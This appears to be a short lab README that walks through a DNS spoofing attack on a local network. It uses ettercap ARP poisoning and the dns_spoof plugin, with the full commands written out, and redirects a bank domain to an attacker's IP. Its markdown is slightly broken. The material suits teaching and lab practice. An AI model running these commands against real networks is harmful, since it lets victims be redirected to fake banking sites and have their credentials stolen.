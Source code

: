 # DNS Spoofing Lab

## Objective
Simulate a DNS spoofing attack and demonstrate how victims can be redirected to fake sites.

## Requirements
- Attacker: Kali Linux with `ettercap`
- Victim: Ubuntu/Debian
- Network: Local LAN

## Steps
1. Enable IP forwarding on attacker:
   ```bash
   echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

2. Start ARP spoofing + DNS spoofing with ettercap:
   '''bash
   sudo ettercap -T -q -i eth0 -M arp:remote /<victim-ip>/ /<gateway-ip>/ -P dns_spoof

3. Edit ettercap’s DNS spoof file (e.g. /etc/ettercap/etter.dns) to redirect:
   www.bank.com A 192.168.1.100

4. On victim machine, try:
   ping www.bank.com
Victim will resolve to attacker’s fake IP.

1. Observe redirection.